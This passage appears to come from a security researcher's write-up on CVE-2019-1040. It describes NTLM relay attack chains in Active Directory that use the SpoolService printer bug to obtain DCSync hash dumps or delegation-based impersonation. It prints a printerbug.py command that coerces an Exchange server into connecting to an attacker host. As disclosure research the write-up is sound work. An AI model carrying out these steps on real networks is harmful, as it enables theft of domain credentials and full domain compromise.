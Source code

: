 # The attacks
At the moment I've identified two attack avenues:

- Using any AD account, connect over SMB to a victim Exchange server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant DCSync privileges to the attacker account. The attacker account can now use DCSync to dump all password hashes in AD.
- Using any AD account, connect over SMB to the victim server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant Resource Based Constrained Delegation privileges for the victim server to a computer account under the control of the attacker. The attacker can now authenticate as any user on the victim server.

There are a few notes on this:
- In the first attack, the Exchange server can be any version (including the ones that were patched for PrivExchange). The only requirement is that they have the high privileges Exchange has by default when installed in Shared permissions or RBAC mode. New Exchange deployments installed after February 12th 2019, or installations that were manually updated to reduce the permissions [as recommended in this Microsoft blog](https://blogs.technet.microsoft.com/exchange/2019/02/12/released-february-2019-quarterly-exchange-updates/) are not vulnerable (but can still be vulnerable to the second attack).
- In the second attack, the server can be any unpatched Windows Server or workstation, including a Domain Controller. When targeting a Domain Controller, you need at least one vulnerable domain controller to relay the authentication to, while triggering the SpoolService bug on the other domain controller (relaying back to the same host might in theory be possible because we can alter the NTLM authentication, I haven't investigated this).
- The second attack requires control over a computer account. This can be a computer account the attacker has obtained the password from because they already are Administrator on a workstation, or a computer account the attacker created, abusing the fact that any account in Active Directory can create those by default.

# Proof of concepts
I've updated ntlmrelayx (part of [impacket](https://github.com/CoreSecurity/impacket)) to have a `--remove-mic` flag, which exploits CVE-2019-1040 based on the technical description by the [Preempt researchers](https://blog.preempt.com/drop-the-mic).

## Attack 1 - picking on Exchange (again)
In the first attack, we attack the Exchange server using the SpoolService/printer bug, and relay this using ntlmrelayx. I'm using [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) from my krbrelayx repo, you can also use [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) or [the original .NET code](https://github.com/leechristensen/SpoolSample/)

```
python printerbug.py testsegment.local/testuser@s2012exc.testsegment.local <attacker ip/hostname>
```

This will make the Exchange server connect to us:

![Exchange connecting](/assets/img/micdrop/printerbug_exchange.png)
